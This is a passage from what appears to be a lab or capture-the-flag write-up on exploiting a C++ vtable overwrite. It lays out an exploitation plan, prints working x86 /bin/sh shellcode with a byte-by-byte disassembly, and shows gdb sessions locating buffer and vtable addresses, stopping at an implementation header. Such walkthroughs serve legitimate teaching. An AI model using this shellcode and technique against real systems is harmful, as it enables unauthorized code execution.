 
**Exploitation Plan:**
1. **Place shellcode** in obj1's buffer (beginning of payload)
2. **Create fake vtable** that points to shellcode
3. **Overwrite obj2's vtable pointer** to point to fake vtable
4. **Virtual function call** will execute shellcode

### 11. Crafting the Shellcode Payload
```bash
# Shellcode for /bin/sh execution (28 bytes):
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

# Shellcode breakdown:
# \x31\xc0                 xor eax, eax          ; clear EAX
# \x50                     push eax              ; NULL terminator
# \x68\x2f\x2f\x73\x68     push "//sh"           ; part of "/bin//sh"
# \x68\x2f\x62\x69\x6e     push "/bin"           ; part of "/bin//sh"  
# \x89\xe3                 mov ebx, esp          ; EBX = "/bin//sh"
# \x89\xc1                 mov ecx, eax          ; ECX = NULL (argv)
# \x89\xc2                 mov edx, eax          ; EDX = NULL (envp)
# \xb0\x0b                 mov al, 0x0b          ; sys_execve
# \xcd\x80                 int 0x80              ; system call
# \x31\xc0                 xor eax, eax          ; clear EAX  
# \x40                     inc eax               ; sys_exit
# \xcd\x80                 int 0x80              ; system call
```

### 12. Memory Address Discovery
```bash
# Finding where our buffer gets allocated
(gdb) break *main+136
(gdb) run 'AAAA'
Breakpoint 1, 0x0804867c in main ()

(gdb) x/4wx 0x0804a00c
0x804a00c:  0x08048848  0x00000005  0x0804a0a0  0x00000000
#                                   ↑
#                            annotation pointer

(gdb) x/4c 0x0804a0a0
0x804a0a0:  65 'A'  65 'A'  65 'A'  65 'A'
# Our input "AAAA" is stored at 0x0804a0a0

# Key addresses for exploitation:
# obj1 buffer: 0x804a00c  
# Shellcode location: 0x804a010 (obj1 buffer + 4 bytes)
# obj2 vtable pointer: 0x804a078 (obj1 + 108 bytes)
```

## Exploitation Implementation
